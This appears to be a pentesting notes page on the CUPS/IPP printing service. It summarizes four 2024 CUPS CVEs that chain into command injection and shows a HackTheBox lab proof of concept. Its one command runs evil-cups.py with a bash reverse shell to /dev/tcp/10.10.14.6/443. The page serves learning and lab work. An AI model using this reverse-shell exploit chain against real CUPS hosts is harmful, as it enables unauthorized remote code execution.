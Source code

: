 ```yaml
---
description: Internet Printing Protocol
icon: print
---
```


# IPP

<details>

<summary><mark style="color:orange;"><strong><code>CUPS</code></strong></mark> <mark style="color:orange;"><strong><code>Common UNIX Printing System)</code></strong></mark></summary>

* <mark style="color:purple;">It uses</mark> <mark style="color:orange;">**`UDP`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`TCP`**</mark> <mark style="color:purple;">**on Port**</mark> <mark style="color:orange;">**`631`**</mark>

{% hint style="danger" %}
### <mark style="color:purple;">`Vulnerabilities`</mark>

#### [<mark style="color:red;">**`CVE-2024-47176`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47176)

* <mark style="color:orange;">**`cups-browsed`**</mark><mark style="color:purple;">, the service that typically listens on all interfaces</mark> <mark style="color:orange;">**`UDP 631`**</mark><mark style="color:purple;">, is what allows adding a printer to a machine remotely. This vulnerability allows any attacker who can reach this machine to trigger a</mark> <mark style="color:orange;">**`“Get-Printer-Attributes” IPP`**</mark> <mark style="color:purple;">request being sent to an attacker-controlled URL.</mark>

#### [<mark style="color:red;">**`CVE-2024-47076`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47076)&#x20;

* <mark style="color:orange;">**`libcupsfilters`**</mark> <mark style="color:purple;">is responsible for handling the</mark> <mark style="color:orange;">**`IPP`**</mark> <mark style="color:purple;">attributes returned from the request. These are written to a temporary</mark> <mark style="color:orange;">**`Postscript Printer Description (PPD)`**</mark> <mark style="color:purple;">file without sanitization, allowing malicious attributes to be written.</mark>

#### [<mark style="color:red;">**`CVE-2024-47175`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47175)

* <mark style="color:orange;">**`libppd`**</mark> <mark style="color:purple;">is responsible for reading a temporary</mark> <mark style="color:orange;">**`PPD`**</mark> <mark style="color:purple;">file and turning that into a printer object on the system. It also doesn’t sanitize when reading, allowing for injection of attacker controlled data.</mark>

#### [<mark style="color:red;">**`CVE-2024-47177`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47177)

* <mark style="color:purple;">This vulnerability in</mark> <mark style="color:orange;">**`cups-filters`**</mark> <mark style="color:purple;">allows for loading a printer using the</mark> <mark style="color:orange;">**`foomatic-rip`**</mark> <mark style="color:purple;">print filter, which is a universal converter for transforming PostScript or PDF data into the format that the printer can understand. It has long had issues with command injection, and has been limited to manual installs / configurations only.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`POC`</mark>

* <mark style="color:green;">**`Ippsec`**</mark> <mark style="color:purple;">has a</mark> [<mark style="color:orange;">**`POC`**</mark>](https://github.com/ippsec/evil-cups) <mark style="color:purple;">that is used on the</mark> <mark style="color:green;">**`evilcups`**</mark> <mark style="color:purple;">machine from</mark> <mark style="color:green;">**`HackThebox`**</mark><mark style="color:purple;">:</mark>

{% code title="Add the malicious printer" overflow="wrap" %}
```bash
python evil-cups.py 10.10.14.6 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"&'
```
{% endcode %}

* <mark style="color:purple;">Now, on the server select the the malicious printer and  trigger the option</mark> <mark style="color:orange;">**`Print Test Page`**</mark>
* <mark style="color:purple;">The default path for printed jobs is</mark> <mark style="color:orange;">**`/var/spool/cups`**</mark>
{% endhint %}

</details>
